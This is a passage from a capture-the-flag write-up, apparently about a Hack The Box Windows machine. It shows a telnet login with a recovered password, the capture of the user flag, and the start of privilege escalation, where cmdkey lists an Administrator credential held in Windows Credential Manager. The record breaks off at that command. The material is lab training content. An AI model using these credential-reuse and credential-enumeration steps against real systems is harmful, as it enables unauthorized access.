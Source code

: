 ~~~~
{% endhighlight %}

Sounds like we found a initial credential for user "security".<br>
By trying this password, we can get a remote shell.

{% highlight shell %}
root@kali:~# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
help
Welcome to Microsoft Telnet Service 

login: security
password: # 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
{% endhighlight %}

User.txt is in a desktop folder for user "security".

{% highlight shell %}
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Desktop

10/11/2018  05:09 PM    <DIR>          .
10/11/2018  05:09 PM    <DIR>          ..
10/11/2018  04:55 PM                 0 1.txt
10/11/2018  05:03 PM                 0 112.txt
10/11/2018  04:58 PM                 0 2.txt
10/11/2018  04:56 PM                 0 finaly.txt
10/11/2018  04:40 PM                 0 h.txt
10/11/2018  04:54 PM                 0 hhha.txt
10/11/2018  04:46 PM                 0 l.txt
10/11/2018  04:48 PM                 0 llll.txt
10/11/2018  04:55 PM                 0 nnn.txt
10/11/2018  04:45 PM                 0 o.txt
10/11/2018  04:52 PM               262 ooo.txt
10/11/2018  05:09 PM                32 outputme.txt
10/11/2018  04:53 PM                 0 qqq.txt
10/11/2018  04:39 PM                 0 test.txt
10/11/2018  04:38 PM                 0 tewst
08/21/2018  11:37 PM                32 user.txt
              16 File(s)            326 bytes
               2 Dir(s)  16,681,881,600 bytes free

C:\Users\security\Desktop>type user.txt
ff1f3b48913b213a31ff6756d2553d38
{% endhighlight %}

### 3. Getting Root
By cmdkey command, we can confirm that windows credential manager is keeping a credential for user Administrator.

{% highlight shell %}
C:\Users\security>cmdkey /list

~~~~